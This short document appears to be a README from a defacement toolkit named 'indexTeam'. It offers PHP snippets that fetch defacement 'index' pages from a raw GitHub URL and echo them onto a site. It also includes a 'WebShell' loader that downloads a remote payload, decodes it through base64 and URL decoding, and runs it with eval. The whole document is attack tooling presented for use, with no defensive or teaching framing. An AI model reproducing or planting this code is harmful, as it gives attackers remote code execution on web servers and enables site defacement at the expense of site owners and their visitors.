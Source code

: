 # indexTeam
#### Bypass | Index
```
<?php
  $index = file_get_contents("https://raw.githubusercontent.com/iiMrDark/indexTeam/main/index.html");
  echo $index;
?>
```
##### Gaza Index
```
<?php
  $index = file_get_contents("https://raw.githubusercontent.com/iiMrDark/indexTeam/main/gaza-index");
  echo $index;
?>
```
##### Anubis Index
```
<?php
  $index = file_get_contents("https://raw.githubusercontent.com/iiMrDark/indexTeam/main/anubisIndex");
  $lol = $index;
  echo $lol;
?>
```

#### ByPass | WebShell
```
<?php
  $unknown = file_get_contents("https://raw.githubusercontent.com/iiMrDark/indexTeam/main/shell");
  $uk45 = "TngqqCwA3Kb5mTb1JmczI5sLJ2wd3lIUV3cSuwirqUO4og8LxOLn49/1AgSA";
  eval(htmlspecialchars_decode(urldecode(base64_decode($unknown))));
  exit;
?>
```
